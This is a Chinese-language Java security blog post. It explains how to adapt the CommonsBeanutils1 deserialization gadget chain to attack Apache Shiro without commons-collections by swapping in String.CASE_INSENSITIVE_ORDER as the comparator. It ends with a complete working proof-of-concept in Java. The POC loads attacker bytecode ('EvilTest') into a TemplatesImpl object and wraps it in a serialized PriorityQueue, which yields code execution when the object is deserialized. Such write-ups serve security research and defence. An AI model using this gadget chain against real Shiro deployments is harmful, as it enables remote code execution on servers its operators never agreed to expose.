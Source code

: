 # [Java安全] CommonsBeanutils1在Shiro中的利用




# 前言

为什么CB1会和Shiro扯上关系，前面我们研究Shiro反序列化的时候，使用的是P牛的demo，我们可以看到maven项目里是装了一个CC3.2.1的，如果我把这个依赖删除的话

![image-20221006182000927](https://tuchuang.huamang.xyz/img/image-20221006182000927.png)

重新加载maven，可以看到多了一个CB

![image-20221006182215409](https://tuchuang.huamang.xyz/img/image-20221006182215409.png)

也就是说，Shiro是依赖于commons-beanutils的，但是我们却不能直接用我们上一篇文章提到的CB1链去打Shiro，看P牛的Java安全漫谈可以知道，有两个坑

- serialVersionUID必须一致，也就是说服务端的CB版本得和我们生成POC的CB版本一致

>如果两个不同版本的库使用了同一个类，而这两个类可能有一些方法和属性有了变化，此时在序列化通 信的时候就可能因为不兼容导致出现隐患。因此，Java在反序列化的时候提供了一个机制，序列化时会 根据固定算法计算出一个当前类的 serialVersionUID 值，写入数据流中；反序列化时，如果发现对方 的环境中这个类计算出的 serialVersionUID 不同，则反序列化就会异常退出，避免后续的未知隐患

- CB反序列化时需要依赖于CC

> 报错信息为：Unable to load class named [org.apache.commons.collections.comparators.ComparableComparator]
>
> commons-beanutils本来依赖于commons-collections，但是在Shiro中，它的commons-beanutils虽 然包含了一部分commons-collections的类，但却不全。这也导致，正常使用Shiro的时候不需要依赖于 commons-collections，但反序列化利用的时候需要依赖于commons-collections



# 无须依赖CC的利用链

因为之前的报错是：

>Unable to load class named [org.apache.commons.collections.comparators.ComparableComparator]

所以我们去定位到这里，BeanCompare，如果在实例化的时候没有给他传入comparator，那么就会调用这个`ComparableComparator.getInstance()`也就依赖了CC链

![image-20221006191950784](https://tuchuang.huamang.xyz/img/image-20221006191950784.png)

不能用ComparableComparator的话就得找个平替来，需要满足的条件是

- 实现 java.util.Comparator接口
- 实现 java.io.Serializable接口
- Java、shiro或commons-beanutils自带，且兼容性强

这里idea有个快捷键，在mac下是`cmd+alt+b`，可以用来寻找实现了这个接口的类

![image-20221006193408440](https://tuchuang.huamang.xyz/img/image-20221006193408440.png)

可以找到一个`CaseInsensitiveComparator`满足条件，他是java.lang.String下的

![image-20221006193553094](https://tuchuang.huamang.xyz/img/image-20221006193553094.png)

所以我们在创建BeanComparator对象的时候，就可以把这个`String.CASE_INSENSITIVE_ORDER`传进去，绕开对于CC的依赖

最后的POC

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CB1pro {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }


    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();

    }
}
```


